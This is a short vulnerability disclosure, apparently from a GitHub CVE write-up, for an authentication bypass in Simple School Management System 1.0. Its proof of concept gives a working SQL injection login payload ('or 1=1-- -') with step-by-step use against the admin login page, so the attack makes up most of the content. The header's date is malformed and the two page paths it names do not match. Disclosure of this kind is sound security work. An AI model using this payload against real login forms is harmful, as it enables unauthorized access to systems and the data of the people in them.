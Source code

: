 # Simple School Managment System - Authentication Bypass
+ **Exploit Title:** Simple School Managment System - Authentication Bypass
+ **Date:** 2024-30-01
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/School/". 

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-02-01 123439](https://github.com/tubakvgc/CVEs/assets/74067343/376ef47a-ac0a-49a2-b5db-e448ae3b3262)

![Ekran görüntüsü 2024-02-01 123556](https://github.com/tubakvgc/CVEs/assets/74067343/6b76c3ee-6c53-4634-8321-37fa68bd3331)

